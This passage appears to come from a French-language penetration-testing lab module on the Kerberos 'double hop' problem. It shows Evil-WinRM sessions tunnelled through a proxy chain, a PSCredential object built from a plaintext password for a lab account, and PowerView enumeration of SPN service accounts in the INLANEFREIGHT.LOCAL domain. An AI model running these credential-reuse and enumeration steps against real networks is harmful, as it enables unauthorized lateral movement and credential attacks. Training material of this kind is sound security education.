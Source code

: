   Problème de "double saut" Kerberos

```
*Evil-WinRM* PS C:\Users\backupadm\Documents> klist

Current LogonId is 0:0x57f8a

Cached Tickets: (1)

#0> Client: backupadm @ INLANEFREIGHT.LOCAL
    Server: academy-aen-ms0$ @
    KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
    Ticket Flags 0xa10000 -> renewable pre_authent name_canonicalize
    Start Time: 6/28/2022 7:31:53 (local)
    End Time:   6/28/2022 7:46:53 (local)
    Renew Time: 7/5/2022 7:31:18 (local)
    Session Key Type: AES-256-CTS-HMAC-SHA1-96
    Cache Flags: 0x4 -> S4U
    Kdc Called: DC01.INLANEFREIGHT.LOCAL

```

Alors maintenant, configurons un objet PSCredential et réessayons. Tout d'abord, nous configurons notre authentification.

  Problème de "double saut" Kerberos

```
*Evil-WinRM* PS C:\Users\backupadm\Documents> $SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force

|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
*Evil-WinRM* PS C:\Users\backupadm\Documents>  $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\backupadm', $SecPassword)

```

Nous pouvons maintenant essayer d'interroger les comptes SPN à l'aide de PowerView et réussir car nous avons transmis nos informations d'identification avec la commande.

  Problème de "double saut" Kerberos

```
*Evil-WinRM* PS C:\Users\backupadm\Documents> get-domainuser -spn -credential $Cred | select samaccountname

|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK

samaccountname
--------------
azureconnect
backupjob
krbtgt
mssqlsvc
sqltest
sqlqa
sqldev
mssqladm
svc_sql
sqlprod
sapsso
sapvc
vmwarescvc

```
